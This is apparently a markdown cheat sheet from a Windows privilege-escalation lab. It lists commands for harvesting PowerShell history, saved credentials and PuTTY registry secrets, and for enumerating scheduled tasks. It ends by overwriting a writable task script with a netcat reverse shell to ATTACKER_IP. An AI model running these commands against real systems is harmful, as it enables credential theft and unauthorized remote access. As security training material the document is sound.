 # Powershell History
Tool: cmd ( admin )
> C:\> %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

![image](https://github.com/cyberwh15ky/command/assets/142871997/1f4ccdad-a35f-4327-bd05-5a2fa3b66ba5)

# Saved Windows Credentials
Tool: cmd ( admin )
> C:\> cmdkey /list

![image](https://github.com/cyberwh15ky/command/assets/142871997/f1fa1fff-530b-4b6c-8b30-6b3db45faeb5)

# Try the user login
Tool: cmd ( admin )
> C:\> runas /savecred /user:admin cmd.exe

![image](https://github.com/cyberwh15ky/command/assets/142871997/ae29ae45-a559-4b11-a6d0-3884840a2952)

![image](https://github.com/cyberwh15ky/command/assets/142871997/26305a77-91b3-4550-8d86-d783c0afa33b)

# Retrieve Credentials from Software: PuTTY
Tool: cmd ( admin )
> C:\> reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s

![image](https://github.com/cyberwh15ky/command/assets/142871997/fd76849c-6eaa-4f9d-81a9-4c447154b311)

![image](https://github.com/cyberwh15ky/command/assets/142871997/d2c68171-98c8-4b9b-bcc6-423b6458b993)


# Scheduled Tasks
Tool: cmd ( admin )
> C:\> schtasks

![image](https://github.com/cyberwh15ky/command/assets/142871997/8813c1e4-e984-45cb-a054-cd43032a0d96)

## Scheduled Tasks
To retrieve detailed information about any of the services, you can use a command like the following one:
Tool: cmd ( admin )
> C:\> schtasks /query /tn vulntask /fo list /v

![image](https://github.com/cyberwh15ky/command/assets/142871997/d04a7a55-2b46-444e-95ea-0543de58b4f6)


If our current user can modify or overwrite the "Task to Run" executable, we can control what gets executed by the taskusr1 user, resulting in a simple privilege escalation. To check the file permissions on the executable, we use icacls:
Tool: cmd ( admin )
> C:\> icacls c:\tasks\schtask.bat
![image](https://github.com/cyberwh15ky/command/assets/142871997/6d87392a-a9c0-4add-b210-66bb07ebb327)

As can be seen in the result, the BUILTIN\Users group has full access (F) over the task's binary. This means we can modify the .bat file and insert any payload we like. For your convenience, nc64.exe can be found on C:\tools. Let's change the bat file to spawn a reverse shell:
Tool: cmd ( admin )
> C:\> echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat

